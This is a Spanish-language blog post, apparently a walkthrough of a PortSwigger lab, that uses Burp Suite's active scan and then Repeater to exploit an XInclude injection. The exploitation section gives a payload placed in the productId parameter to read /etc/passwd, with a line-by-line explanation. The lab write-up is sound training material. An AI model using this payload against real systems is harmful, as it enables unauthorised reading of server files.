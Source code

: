 ```yaml
---
layout: post
title: Discovering vulnerabilities quickly with targeted scanning
date: 2024-12-01 20:01:00
description: Laboratorio introductorio a la herramienta Burpsuite
tags: Burpsuite, Portswigger, pentesting, ciberseguridad, Web
categories: Seguridad Informática
thumbnail: assets/img/burp-logo.png
featured: true
---
```


# **Datos Generales**
- **Software**: Burpsuite Profesional 
- **Dificultad**: Fácil
- **Duracion**: 10 minutos
- **Observaciones**: Es posible hallar la vulnerabilidad utilizando la versión Community pero el laboratorio esta diseñado para realizarlo con la versional Profesional. 
- **CVSS 3.1**: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  **7.5 Alto**

## **Reconocimiento**
- al ser un laboratoprio inicial la vulnerabilidad se encuentra expuesta. Para ello capturamos el tráfico de la página en **product/stock**. Hacemos **click derecho** y activamos **active scan** y esperamos un poco de tiempo esperando que finalice el scaneo

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/Burp_lab_01-3.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

La vulnerabilidad detectada es **out-of-band resource load (HTTP)** la cual es catalogada con severidad alta por la herramienta.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/Burp_lab_01-2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

## **Explotación**

Conociendo la vulnerabilidad, enviamos la petición a **repeater** donde la modificaremos.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/Burp_lab_01-5.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Modificamos la petición en **productId** con el siguiente payload:

```test
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
Explicación del payload

```
xmlns:xi = Declara el prefijo xi asociado al estándar XInclude.
xi:include = Utilizado para incluir contenido externo en el documento XML.
parse="text" = Indica que el contenido del recurso externo, se debe tratar como texto plano.
href="file:///etc/passwd" = Especifica la ubicación a la que se accedera. En este caso al fichero /etc/passwd.
```

### Funcionamiento del payload

Cuando este XML se procesa con un parser que soporta XInclude, el parser intenta incluir el contenido del archivo especificado en href (en este caso, file:///etc/passwd) en el documento XML. Por lo tanto, si el parser tiene acceso al sistema de archivos y no hay restricciones de seguridad, el contenido del archivo /etc/passwd será incluido en el lugar donde se define el **xi:include**.

Finalmente podemos observar la resolución del laboratorio
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/Burp_lab_01-7.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

## **Enlaces de interés**

Tutorial inicial con descripción de las herramientas de Burpsuite realizado por SniferLabs

<div class="row mt-3">
    <ul class="list-unstyled d-flex flex-wrap justify-content-center">
        <li class="col-12 col-sm-6 col-md-4 mt-3">
            <a href="https://www.youtube.com/watch?v=i2VL_rGDKac&list=PL4TbrTdoQBY_h0-ZxC0LbZ8Fsz7F91d1c&index=6" target="_blank" class="text-decoration-none">
                <div class="card">
                    <img src="https://yt3.googleusercontent.com/N4lYl6YUl79SgE8WgLGxWejU4DeQGNy-1HLd5CDFvnWgSsupCKbqLRiABoJDT12HpsX4Fq_5=w1707-fcrop64=1,00005a57ffffa5a8-k-c0xffffffff-no-nd-rj" class="card-img-top img-fluid rounded" alt="Thumbnail of YouTube Video">
                    <div class="card-body">
                        <h5 class="card-title">Curso de introducción a Burpsuite</h5>
                    </div>
                </div>
            </a>
        </li>
    </ul>
</div>
